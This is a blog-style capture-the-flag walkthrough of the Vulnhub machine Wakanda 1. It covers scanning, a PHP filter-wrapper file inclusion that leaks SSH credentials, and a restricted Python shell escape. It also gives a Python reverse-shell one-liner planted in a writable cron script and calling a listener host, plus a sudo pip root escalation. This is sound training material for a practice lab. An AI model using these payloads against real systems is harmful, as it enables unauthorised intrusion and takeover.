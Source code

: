 ```yaml
---
layout: default
title : muzec - Wakanda 1 Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/117991276-e3a22a80-b30b-11eb-9574-7f990424e319.png)

Wakanda 1 a crazy little box that kick my ass lol since i decided to complete all the OSCP like box on Vulnhubs so today we are solving Wakanda 1 you can easily grab a copy here [Wakanda Download Here](https://www.vulnhub.com/entry/wakanda-1,251/) .

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/wakanda]
└─$ cat nmap.nmap
# Nmap 7.91 scan initiated Wed May 12 03:28:56 2021 as: nmap -p- -sC -sV -oA nmap 172.16.139.173
Nmap scan report for 172.16.139.173
Host is up (0.00019s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Vibranium Market
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          38725/udp6  status
|   100024  1          51498/tcp   status
|   100024  1          53596/tcp6  status
|_  100024  1          53798/udp   status
3333/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 1c:98:47:56:fc:b8:14:08:8f:93:ca:36:44:7f:ea:7a (DSA)
|   2048 f1:d5:04:78:d3:3a:9b:dc:13:df:0f:5f:7f:fb:f4:26 (RSA)
|   256 d8:34:41:5d:9b:fe:51:bc:c6:4e:02:14:5e:e1:08:c5 (ECDSA)
|_  256 0e:f5:8d:29:3c:73:57:c7:38:08:6d:50:84:b6:6c:27 (ED25519)
51498/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 12 03:29:11 2021 -- 1 IP address (1 host up) scanned in 14.70 seconds
```

Some few ports also SSH is running on port 3333 so let check port 80 first .

![image](https://user-images.githubusercontent.com/69868171/117991276-e3a22a80-b30b-11eb-9574-7f990424e319.png)

Intersting let cehck the source code maybe a hint is left behind to trace .

![image](https://user-images.githubusercontent.com/69868171/117992275-cd489e80-b30c-11eb-9874-43379cc5f691.png)

Some interesting comment in the source so i try checking the parameter but it only change the language to french .

![image](https://user-images.githubusercontent.com/69868171/117992489-fb2de300-b30c-11eb-9f14-3a200f891f49.png)

Let try some directory brute forcing on the target .

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/wakanda]
└─$ gobuster dir -u http://172.16.139.173/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.139.173/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2021/05/12 07:30:39 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 1527]
/fr.php               (Status: 200) [Size: 0]   
/admin                (Status: 200) [Size: 0]   
/backup               (Status: 200) [Size: 0]   
/shell                (Status: 200) [Size: 0]   
/secret.txt           (Status: 200) [Size: 40]  
/secret               (Status: 200) [Size: 0]   
/troll                (Status: 200) [Size: 0]   
/server-status        (Status: 403) [Size: 302] 
/hahaha               (Status: 200) [Size: 0]   
/hohoho               (Status: 200) [Size: 0]   
                                                
===============================================================
2021/05/12 07:33:35 Finished
===============================================================
```
Some really interesting directory but all is empty only the `secret.txt` which is also a troll lol. 

![image](https://user-images.githubusercontent.com/69868171/117993501-cbcba600-b30d-11eb-830d-4e34665302c2.png)

Ok going back to the language parameter to test for some LFI vulnerability .

![image](https://user-images.githubusercontent.com/69868171/117993812-0df4e780-b30e-11eb-979c-84f9ae88fe12.png)

I actually spend hours here to figure out what am missing so i end up peeping at a write up to see what am missing and guess what am actually at the right path but just need a php wrapper fliter for it to work.

`php://filter/convert.base64-encode/resource=index`

![image](https://user-images.githubusercontent.com/69868171/117994712-bb67fb00-b30e-11eb-8bd8-6714ad32d108.png)

And boom we have the index page source code now let try to decode it.

![image](https://user-images.githubusercontent.com/69868171/117995174-1bf73800-b30f-11eb-9857-8b329936e033.png)

Cool with some credentials since we know the username is `mamadou` now let log in SSH .

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs]
└─$ ssh mamadou@172.16.139.173 -p3333
mamadou@172.16.139.173's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Wed May 12 05:14:12 2021 from 172.16.139.1
Python 2.7.9 (default, Jun 29 2016, 13:08:31) 
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```

And we are in but restricted in python shell now time to break out of it.

`import os; os.system("/bin/bash")`

![image](https://user-images.githubusercontent.com/69868171/117996303-09c9c980-b310-11eb-8b2a-d1e1ffefe789.png)

And boom and we have the flag1.txt let move on now haahahhahaah .

```
mamadou@Wakanda1:~$ ls
flag1.txt
mamadou@Wakanda1:~$ cd ..
mamadou@Wakanda1:/home$ ls
devops  mamadou
mamadou@Wakanda1:/home$ cd devops
mamadou@Wakanda1:/home/devops$ ls
flag2.txt
mamadou@Wakanda1:/home/devops$ cat flag2.txt
cat: flag2.txt: Permission denied
mamadou@Wakanda1:/home/devops$ 
```
And i was thinking it our lucky day since i have able to get into the `devops` user folder thinking i have access to the flag2.txt but damn no luck time to move our Privilege.

### Privilege Escalation .

Let transfer `linpeas.sh` to our target for quick result .

![image](https://user-images.githubusercontent.com/69868171/117997378-e7847b80-b310-11eb-86b8-b3202d316f25.png)

`/srv/.antivirus.py` look promising and we have write permission on it.

```
mamadou@Wakanda1:/tmp$ ls -la /srv/.antivirus.py
-rw-r--rw- 1 devops developer 252 May 12 06:12 /srv/.antivirus.py
mamadou@Wakanda1:/tmp$ 
```

So i decided to add my our reverse shell code payload to the file .

`import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

![image](https://user-images.githubusercontent.com/69868171/117998277-bbb5c580-b311-11eb-86ac-db08f3a80a8a.png)

So let start an Ncat listener and wait for shell.

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs]
└─$ nc -nvlp 1337
listening on [any] 1337 ...
```

And boom we have shell .

![image](https://user-images.githubusercontent.com/69868171/117998736-2c5ce200-b312-11eb-8d42-110f053fcbdd.png)

Let spawn a TTY shell now .

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs]
└─$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [172.20.10.4] from (UNKNOWN) [172.20.10.4] 58567
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn ("/bin/bash")'
devops@Wakanda1:/$ id
id
uid=1001(devops) gid=1002(developer) groups=1002(developer)
devops@Wakanda1:/$ 
```

Now let check `sudo -l` .

```
devops@Wakanda1:/$ sudo -l
sudo -l
Matching Defaults entries for devops on Wakanda1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip
```

Time to hit gtfobins .

![image](https://user-images.githubusercontent.com/69868171/117999226-a0978580-b312-11eb-92d3-49a3743297b3.png)

1. TF=$(mktemp -d)
2. echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
3. sudo pip install $TF

![image](https://user-images.githubusercontent.com/69868171/117999540-f10ee300-b312-11eb-8a10-c1bfbb02f7b9.png)

And we are root so i foget to get the flag2.txt let get it now also with the root.txt .

![image](https://user-images.githubusercontent.com/69868171/117999717-20255480-b313-11eb-935a-7e147a0fc895.png)

And the root.txt .

![image](https://user-images.githubusercontent.com/69868171/117999773-316e6100-b313-11eb-8a60-2a5b4eccf036.png)

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
